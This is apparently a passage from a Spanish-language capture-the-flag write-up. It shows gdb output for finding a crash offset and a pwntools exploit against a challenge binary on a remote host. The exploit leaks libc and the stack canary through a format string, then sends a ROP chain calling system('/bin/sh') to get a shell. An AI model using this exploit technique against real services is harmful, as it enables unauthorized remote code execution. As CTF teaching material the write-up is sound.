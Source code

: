 ```gdb
Continuing.

Program received signal SIGSEGV, Segmentation fault.
gdb-peda$ x/wx $rsp
0x7fffffffe5d8: 0x33614132

$ msf-pattern_offset -q 0x33614132
[*] Exact match at offset 8
```

Obtenemos un offset de **8 bytes**.
Ahora podemos fácilmente crear un exploit:



```python
#!/usr/bin/env python
from pwn import *

e = ELF('q3')
libc = ELF('libc.so.6', checksec=False)

io = remote('68.183.158.95', 8991)

io.sendline('%2$lx-%11$lx')
io.recvline()
leak = io.recvline()
libc.address = int(leak.strip().split('-')[0], 16) - 0x3c6780
canary = int(leak.strip().split('-')[1], 16)

log.info("Libc: %s" % hex(libc.address))
log.info("Canary: %s" % hex(canary))

payload = flat(
        "A"*24,
        canary, 
        "A"*8,
        libc.address + 0x0000000000021102, # pop rdi; ret
        next(libc.search('/bin/sh')),
        libc.sym['system'],
        endianness = 'little', word_size = 64, sign = False)

io.recv()
io.sendline(payload)
io.interactive()
```
